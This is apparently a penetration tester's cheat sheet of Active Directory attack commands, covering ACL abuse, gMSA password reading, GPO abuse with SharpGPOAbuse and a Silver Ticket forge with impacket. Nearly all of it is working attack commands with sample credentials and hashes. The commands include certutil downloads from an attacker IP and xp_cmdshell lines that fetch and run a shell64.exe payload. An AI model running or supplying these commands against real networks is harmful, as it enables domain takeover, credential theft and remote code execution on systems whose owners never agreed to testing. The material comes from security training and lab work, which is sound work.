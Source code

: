 ### ACLs

[Abusing Active Directory ACLs/ACEs | Red Team Notes](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces)

***Generic All***

```jsx
ldeep ldap -u tracy.white -p 'zqwj041FGX' -d ldap://nara-security.com -s 192.168.181.30 add_to_group "CN=TRACY WHITE,OU=STAFF,DC=NARA-SECURITY,DC=COM" "CN=REMOTE ACCESS,OU=remote,DC=NARA-SECURITY,DC=COM"
```

```jsx
net user jen Password123 /domain
```

**Generic All on Computer**: [**Resource Based Constrained Delegation Attack**](https://www.notion.so/Resource-Based-Constrained-Delegation-Attack-8003ef218a7e4cb2b7d0709521e85355?pvs=21) 

***ReadGMSAPassword***

```jsx
 wget https://github.com/CsEnox/tools/raw/main/GMSAPasswordReader.exe
 certutil -split -urlcache -f http://192.168.45.171/GMSAPasswordReader.exe
.\GMSAPasswordReader.exe --AccountName svc_apache$
```

### GPOs

```jsx
Get-DomainGPOLocalGroup | select GPODisplayName, GroupName, GPOType
```

![Untitled](Cheat%20sheet%20b2ec1956b01746ed807a1363890b898f/Untitled.png)

[SharpGPOAbuse/SharpGPOAbuse-master at main · byronkg/SharpGPOAbuse](https://github.com/byronkg/SharpGPOAbuse/tree/main/SharpGPOAbuse-master)

```jsx
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount anirudh --GPOName "DEFAULT DOMAIN POLICY"
gpupdate /force
# check if added to admin
net localgroup administrators
```

### Silver Ticket

```jsx
1. Get nthash -> https://codebeautify.org/ntlm-hash-generator // To translate cleartext to NTLM
2. Get domain-sid + domain -> (powershell) Get-ADdomain // DomainSID + Forest (fields)
3. Get spn -> (powershell) Get-ADUser -Filter {SamAccountName -eq "svc_mssql"} -Properties ServicePrincipalNames //ServicePrincipalNames (field)

impacket-ticketer -nthash E3A0168BC21CFB88B95C954A5B18F57C -domain-sid S-1-5-21-1969309164-1513403977-1686805993 -domain nagoya-industries.com -spn MSSQL/nagoya.nagoya-industries.com -user-id 500 Administrator
export KRB5CCNAME=$PWD/Administrator.ccache
// Add to /etc/krb5user.conf -> one box below
// Add to /etc/hosts -> one box below
impacket-mssqlclient -k nagoya.nagoya-industries.com 
enable_xp_cmdshell
xp_cmdshell whoami
xp_cmdshell "certutil -URLCache -split -f http://192.168.45.171/payload/shell64.exe \Windows\Temp\shell64.exe"
xp_cmdshell "\Windows\Temp\shell64.exe"

```
